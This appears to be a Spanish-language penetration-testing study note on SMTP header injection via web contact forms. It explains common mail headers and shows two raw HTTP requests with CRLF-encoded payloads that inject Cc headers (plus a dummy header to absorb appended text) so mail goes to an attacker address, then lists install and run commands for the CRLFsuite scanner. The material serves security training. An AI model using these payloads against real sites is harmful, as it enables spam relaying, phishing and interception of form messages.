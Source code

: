 Aquí hay una breve lista de algunos encabezados SMTP importantes y su significado:

-   `From`: contiene el remitente
-   `To`: contiene un solo destinatario o una lista de destinatarios
-   `Subject`: contiene el título del correo electrónico
-   `Reply-To`: contiene la dirección de correo electrónico a la que el destinatario debe responder
-   `Cc`: contiene destinatarios que reciben una copia al carbón del correo electrónico
-   `Bcc`: contiene destinatarios que reciben una copia oculta del correo electrónico

**_Es posible que un formulario de contacto nos permita enviar un correo electronico con un mensaje, nos pida un campo de email y ese valor se reflejpo en el header `From`._**

En una implementación real de una aplicación web vulnerable, a menudo no tenemos acceso al correo electrónico resultante, por lo que no podemos confirmar si nuestro header se inyectó correctamente o no. Nuestro primer intento de explotación podría ser agregarnos como destinatarios del correo electrónico. Si recibimos el correo electrónico, sabemos que inyectamos con éxito un header SMTP. Podemos hacer esto dirigiéndonos a uno de los siguientes headers SMTP: `To`,  `Cc` o `Bcc`. Podemos inyectar nuestra propia dirección de correo electrónico en el header para obligar al servidor SMTP a enviarnos el correo electrónico:

```http
POST /contact.php HTTP/1.1
Host: smtpinjection.htb
Content-Length: 107
Content-Type: application/x-www-form-urlencoded

name=evilhacker&email=evil@attacker.htb%0d%0aCc:%20evil@attacker.htb&phone=123456789&message=Hello+Admin%21
```

En algunos casos, la aplicación puede agregar datos adicionales a nuestro punto de inyección. Considere un escenario en el que proporcionamos un nombre y se refleja en el `Subject`header para formar la siguiente línea: `You received a message from <name>!`. En este caso, se agrega un signo de exclamación a nuestra entrada. Si ahora intentamos inyectar un header `Cc` que contenga nuestra dirección de correo electrónico, la aplicación web agregará el signo de exclamación a nuestra dirección de correo electrónico y, por lo tanto, la invalidará. Por lo tanto, se recomienda inyectar siempre un header ficticio adicional después de nuestra carga real para evitar problemas de este tipo.

```http
POST /contact.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 151
Content-Type: application/x-www-form-urlencoded

name=evilhacker&email=evil%40attacker.htb%0d%0aCc:%20evil@attacker.htb%0d%0aDummyheader:%20abc&phone=123456789&message=Hello+Admin%21
```

## Herramientas

- [https://github.com/Nefcore/CRLFsuite](https://github.com/Nefcore/CRLFsuite)

```bash
#instalacion
pip3 install crlfsuite
```

```bash
crlfsuite -t http://127.0.0.1:8000/?target=asd
```

![[Pasted image 20230512162122.png]]